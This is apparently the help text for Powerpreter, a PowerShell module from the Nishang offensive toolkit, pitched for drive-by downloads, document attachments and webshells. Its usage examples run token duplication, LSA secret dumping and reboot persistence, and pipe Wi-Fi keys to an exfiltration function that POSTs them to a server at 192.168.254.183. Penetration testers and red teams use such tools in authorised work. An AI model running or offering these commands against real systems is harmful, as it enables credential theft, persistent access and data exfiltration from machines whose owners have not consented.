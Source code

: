 #####Powerpreter is a script module which makes it useful in scenarios like drive-by-download, document attachments, webshells etc.
where one may like to pull all the functionality in Nishang in a single file or deployment
is not easy to do.Powerpreter has persistence capabilities too.
See examples for help in using it.

#####Examples

.EXAMPLE
PS > Import-Module .\Powerpreter.psm1
PS> Get-Command -Module powerpreter

The first command imports the module in current powershell session.
The second command lists all the functions available with powerpreter.

.EXAMPLE
PS > Import-Module .\Powerpreter.psm1; Enable-DuplicateToken; Get-LSASecret

Use above command to import powerpreter in current powershell session and execute the two functions.

.EXAMPLE
PS > Import-Module .\Powerpreter.psm1; Persistence

Use above for reboot persistence

.EXAMPLE
PS > Import-Module .\Powerpreter.psm1
PS > Get-WLAN-Keys | Do-Exfiltration -ExfilOption Webserver -URL http://192.168.254.183/catchpost.php

Use above for exfiltration to a webserver which logs POST requests.
